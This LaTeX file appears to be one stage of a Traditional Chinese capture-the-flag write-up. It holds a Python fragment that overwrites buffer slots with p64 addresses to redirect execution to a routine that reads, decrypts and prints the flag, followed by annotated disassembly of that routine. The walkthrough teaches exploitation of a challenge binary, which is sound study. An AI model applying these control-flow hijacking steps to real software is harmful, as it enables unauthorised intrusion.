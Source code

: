 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BaseNTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\DataTypeTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{#1}}
\newcommand{\FloatTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\begin{document}
\paragraph{階段 4：把 flag
印出來}\label{ux968eux6bb5-4ux628a-flag-ux5370ux51faux4f86}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{time.sleep(}\FloatTok{0.7}\NormalTok{)                       }\CommentTok{\# 等保險箱的回覆到齊}
\NormalTok{d3[}\BaseNTok{0x40}\NormalTok{:}\BaseNTok{0x48}\NormalTok{] }\OperatorTok{=}\NormalTok{ p64(RESP)             }\CommentTok{\# rbx = A3+0x60  (RELAY 的緩衝區 = rsp+0x10)}
\NormalTok{d3[}\BaseNTok{0x48}\NormalTok{:}\BaseNTok{0x50}\NormalTok{] }\OperatorTok{=}\NormalTok{ p64(}\BaseNTok{0x401fda}\NormalTok{)         }\CommentTok{\# ret → read(3, rbx, 0x100) + 解密 + 印出}
\end{Highlighting}
\end{Shaded}

進入 \texttt{0x401fda} 時 \textbf{\texttt{rsp\ \allowbreak{}=\ \allowbreak{}A3\ \allowbreak{}+\ \allowbreak{}0x50}}（因為
\texttt{ret} 已經把 \texttt{{[}A3+0x48{]}} 這個目標位址彈掉了，
\texttt{A3+0x48} 是鏈的第 0 個 qword，彈掉之後 \texttt{rsp} 前進 8 →
變成 \texttt{A3+0x50}）。

接下來 \texttt{RELAY}（\texttt{0x401fda} 之後）解析標頭時，全部都以
\textbf{\texttt{rsp+0x10}} 為基準：

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{40200a:  }\BuiltInTok{movsx} \KeywordTok{dx}\OperatorTok{,} \DataTypeTok{BYTE} \DataTypeTok{PTR} \OperatorTok{[}\KeywordTok{rsp}\OperatorTok{+}\BaseNTok{0x11}\OperatorTok{]}      \CommentTok{; 標頭 byte1}
\NormalTok{402010:  }\BuiltInTok{movsx} \KeywordTok{ax}\OperatorTok{,} \DataTypeTok{BYTE} \DataTypeTok{PTR} \OperatorTok{[}\KeywordTok{rsp}\OperatorTok{+}\BaseNTok{0x12}\OperatorTok{]}      \CommentTok{; 標頭 byte2}
\NormalTok{40201b:  }\BuiltInTok{cmp}  \DataTypeTok{BYTE} \DataTypeTok{PTR} \OperatorTok{[}\KeywordTok{rsp}\OperatorTok{+}\BaseNTok{0x10}\OperatorTok{],}\BaseNTok{0x0}       \CommentTok{; 標頭 byte0 (op)}
\NormalTok{402032:  }\BuiltInTok{lea}  \KeywordTok{rsi}\OperatorTok{,[}\KeywordTok{rsp}\OperatorTok{+}\BaseNTok{0x14}\OperatorTok{]}                \CommentTok{; payload 起點 = 標頭 + 4}
\end{Highlighting}
\end{Shaded}
\end{document}
